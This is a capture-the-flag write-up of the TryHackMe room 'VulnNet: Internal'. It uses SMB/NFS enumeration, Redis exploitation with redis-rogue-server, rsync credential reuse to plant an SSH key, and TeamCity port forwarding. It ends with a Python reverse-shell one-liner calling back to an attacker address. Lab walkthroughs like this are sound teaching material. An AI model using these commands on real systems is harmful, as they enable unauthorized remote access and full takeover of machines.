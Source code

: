 ```yaml
---
date: 2025-02-20
categories: [CTF, THM]
title: "THM - VulnNet: Internal"
tags: ['privilege escalation', 'python', 'rce', 'reverse shell', 'smb', 'smbmap']

description: "VulnNet Internal - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# THM - VulnNet: Internal

```bash
rustscan -a 10.10.218.65 --ulimit 5000 -- -A
```

![image1](../resources/2a3c44695df3425dbfd814a4fa31ca4b.png)

![image2](../resources/cad653e3ffce4c7ea3a61d896e204d71.png)

- SMBMap:
```bash
smbmap -H 10.10.218.65 -u Guest

```

![image3](../resources/ba1ff9b5304742928cc6071b46c54a0a.png)

```bash
smbclient //10.10.218.65/shares -U Guest

cat services.txt

```
- Connect to redis:
```bash
redis-cli -h 10.10.218.65

```

![image4](../resources/e37cf6ea1a194d189fc7f64e78a6e91d.png)

This means that you need valid credentials to access the Redis instance

- Moving on to NFS (port 2049):
```bash
showmount -e 10.10.218.65

```

![image5](../resources/75210170be5c4e1680843b34f8ff7d74.png)

```bash
mkdir /tmp/vulnnet

sudo mount -t nfs <ip>:<remote_folder> <local_folder> -o nolock

sudo mount -t nfs 10.10.218.65:/opt/conf /tmp/vulnnet -o nolock

```

![image6](../resources/f9f1783652e94019897142ade5bcee6a.png)


![image7](../resources/a750be5423b848d6ab4329387c296136.png)

- Looking in redis directory we get the redis.conf:

![image8](../resources/35252db72c29414e9e97d53121d9c7a1.png)

- Connect to redis again with password:
```bash
redis-cli -h 10.10.218.65 -a B65Hx562F@ggAZ@F

```

![image9](../resources/e0f847875334497097a0bca87a068878.png)

**Redis version: 4.0.9**

**<u>Exploit:</u>**

```bash
redis-cli -h 10.10.193.202 -a B65Hx562F@ggAZ@F

> KEYS *
> get "internal flag"
> LRANGE authlist 1 20

```

![image10](../resources/2025effebecd42fbad2ff91882d9c7db.png)

**OR**


![image11](../resources/ec4b3f4b36a2489185d95f44df0e5b36.png)

<https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis>

<https://github.com/Jean-Francois-C/Database-Security-Audit/blob/master/Redis%20database%20penetration%20testing>

```bash
git clone https://github.com/n0b0dyCN/redis-rogue-server.git

./redis-rogue-server.py --rhost 10.10.218.65 --lhost 10.8.24.66 --passwd B65Hx562F@ggAZ@F

```

![image12](../resources/a10b200ef39843d3bdad88fec2240951.png)

- Ran it again
**Interactive:**


![image13](../resources/eac279c5e43342c6b4aef1a46d0ded5d.png)

**Reverse shell:**


![image14](../resources/139332f3f3af4ac9b630b81aa8d36a50.png)


![image15](../resources/6aff8937631d4a2989baf8f2d7c9ca7d.png)

- Upgrade shell:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
- List current directory - Found dump.rdb file:

![image16](../resources/ba7a6b5e83a3493cb09b27771258a5f9.png)

Copy file to Kali:


![image17](../resources/aa1775285df84b20ad6ca6707375f323.png)

Use rdbtools (more readable)

<https://github.com/sripathikrishnan/redis-rdb-tools>

<https://medium.com/@D0rkerDevil/how-i-found-credential-enriched-redis-dump-2b9e808024c4>

```bash
git clone https://github.com/sripathikrishnan/redis-rdb-tools

cd redis-rdb-tools
sudo python setup.py install
rdb --command json dump.rdb -f output.json

```
cat json or copy into a jsonviewer


![image18](../resources/41e377f6f7fe40388d50f29e75f8115f.png)


![image19](../resources/5a3bcf59870046a1a7210cf0034ca675.png)


![image20](../resources/20e9f37bb9d24f27ac24f10add8c7cc0.png)

rsync://rsync-connect@127.0.0.1 with password **Hcg3HP67@TW@Bc72v**

- We know rsync is being used
**Rsync is a utility for efficiently transferring and synchronizing files between computers, drives and networks**

<https://book.hacktricks.xyz/network-services-pentesting/873-pentesting-rsync>

- List the shared folders:
```bash
rsync -av --list-only rsync://10.10.193.202

```

![image21](../resources/95db062e9f5547c19c33c72af1cf170d.png)

- Connect to folder:
```bash
rsync rsync://rsync-connect@10.10.193.202/files

```

![image22](../resources/21f618793743439c9ff0f07cfab1c868.png)

- Copy remote folder's files to Kali:
```bash
mkdir rsync_folder

rsync -av rsync://rsync-connect@10.10.193.202/files rsync_folder

```

![image23](../resources/47c1ae9ec505433e9fa15aa48e0752d9.png)

This recursively transfers all files from the directory \<shared_name\> on the machine \<IP\>into the rsync_folder directory on the local machine


![image24](../resources/ec388f97d5e34a51ab2de78892b3c9dc.png)

```bash
cat user.txt

```
- SSH folder is empty

![image25](../resources/7fe873bdc131490298e89db76231a78d.png)

- Create ssh keypair and upload:
```bash
ssh-keygen -t rsa

```

![image26](../resources/88da37a5a28b4e98ae5adb0f62ae3b5f.png)

```bash
chmod 600 id_rsa

mv id_rsa.pub authorized_keys

chmod 600 authorized_keys

rsync -av authorized_keys rsync://rsync-connect@10.10.193.202/files/sys-internal/.ssh

```
- SSH in:
```bash
ssh -i id_rsa sys-internal@10.10.193.202

```
- TeamCity folder in /
<https://exploit-notes.hdks.org/exploit/web/teamcity-pentesting/>


![image27](../resources/ada00581f25447f9b9ea0e1ebfa5f59f.png)

- Check network connections:
```bash
ss -pant

```

![image28](../resources/3e07c2fb3573423398aa6901dc1607d1.png)

Port 8111 is the default port for TeamCity and it's running locally

- Set up port forwarding
<https://www.hackingarticles.in/port-forwarding-tunnelling-cheatsheet/>

```bash
ssh -L 8111:localhost:8111 sys-internal@10.10.193.202 -i id_rsa

```
(The first port number can be anything - used on Kali)

- Go to 127.0.0.1:8111

![image29](../resources/07c3c2eb0ea74ab1b45484847ca7efaf.png)

- Click on Super User link

![image30](../resources/75abd56cf95840e5b6899471a0beb94f.png)
- On the SSH session:
```bash
grep -rnw /TeamCity/ -e "token" 2>/dev/null

```

![image31](../resources/26cd7ef9130a4928804b71b96fe3ff89.png)

- Log in with the token - 8807557903946249045

- Get root shell:
<https://exploit-notes.hdks.org/exploit/web/teamcity-pentesting/>


![image32](../resources/29186eef919c4ccdbd83f9ba938f9cb1.png)

```bash
export RHOST="10.8.24.66";export RPORT=4443;python3 -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'

```

![image33](../resources/ea40f4f34de54db9b08a7a2b36bdfd91.png)
